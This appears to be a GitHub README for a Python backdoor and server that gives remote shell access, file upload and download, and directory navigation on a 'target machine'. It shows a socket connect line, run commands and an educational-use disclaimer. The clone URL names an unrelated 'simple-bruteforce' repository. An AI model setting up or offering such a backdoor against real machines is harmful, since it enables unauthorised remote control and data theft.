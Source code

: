 # 🐍 Backdoor and Server Project

This project is a Python implementation of a simple backdoor and server communication system. The backdoor (`backdoor.py`) connects to a server (`server.py`) to execute commands, transfer files, and maintain communication.

⚠️ **Disclaimer:** This code is for educational purposes only. Unauthorized use or deployment of this code for malicious purposes is strictly prohibited and may be illegal. Use responsibly and ethically.

---

## 🚀 Features

- 📡 Persistent backdoor connection
- 🔄 File upload and download functionality
- 🖥️ Remote shell execution
- 🗂 Directory navigation support

---

## 📂 Project Structure

    ├── backdoor.py   # Backdoor script to connect to the server
    ├── server.py     # Server script to manage the backdoor
    
## ⚙️ Setup

1. Ensure you have Python 3.x installed on both server and target machines.

2. Clone or download this repository:
        ```bash
        git clone https://github.com/fadlyfatih1/simple-bruteforce.git
        cd simple-bruteforce
        ```

3. Update the IP address in both backdoor.py and server.py to match the server's IP:
   ```bash
    s.connect(('192.168.1.1', 5555))  # In backdoor.py
    sock.bind(('192.168.1.1', 5555))  # In server.py
   ```
   
4. Running the server:
```bash
python3 server.py
```

4. Running the Backdoor on target machine:
```bash
python3 backdoor.py
```

## 📜 Usage
Example Commands
- Change Directory: cd /path/to/directory
- Upload File: upload example.txt
- Download File: download example.txt
- Execute Shell Command: ls -la
- Terminate Connection: quit

## 📌 Note
This repository is not responsible for any harm or damage caused by improper use of this code. Always adhere to ethical hacking guidelines and ensure compliance with the law.
